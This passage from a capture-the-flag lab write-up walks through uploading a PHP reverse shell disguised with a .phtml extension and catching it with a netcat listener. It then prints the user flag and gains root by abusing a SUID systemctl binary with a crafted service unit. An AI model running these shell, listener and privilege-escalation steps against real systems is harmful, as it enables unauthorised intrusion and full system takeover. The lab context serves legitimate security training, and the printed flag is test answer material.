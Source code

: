 ![image](/assets/img/Pasted image 20230730172457.png)

Now that we know the correct file extension, we can prepare our reverse shell
1. Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
2. Change the following values to your tun0 ip and the port you want to listen on
![image](/assets/img/Pasted image 20230730172938.png)
3. Rename this file to `php-reverse-shell.phtml`
4. Start a `netcat` listener on your local machine
	1. `nc -lnvp 9001`
5. Upload the file and navigate to `http://10.10.22.168:3333/internal/uploads/php-reverse-shell.phtml`

![image](/assets/img/Pasted image 20230730173259.png)

**What is the name of the user who manages the webserver?**

If we look in the `/home` directory we see `bill`, so we can assume that he is the user who manages the webserver

![image](/assets/img/Pasted image 20230730173434.png)

**What is the user flag?**

```bash
cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

<br><br>

### Privilege Escalation

Using the following `find` command we can look for files with SUID bits.

```bash
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null
```

Looking through the results we see a file that stands out
```
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
```

Searching for this binary on [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid) we see that there is a privilege escalation vector with this binary when it has SUID privileges.

Because of our privileges we have to modify the exploit slightly but with the following commands we will become root.

```bash
$ TF=$(mktemp).service
$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.Ksu1QmN8Mv.service to /tmp/tmp.Ksu1QmN8Mv.service.
$ /bin/systemctl enable --now $TF
```
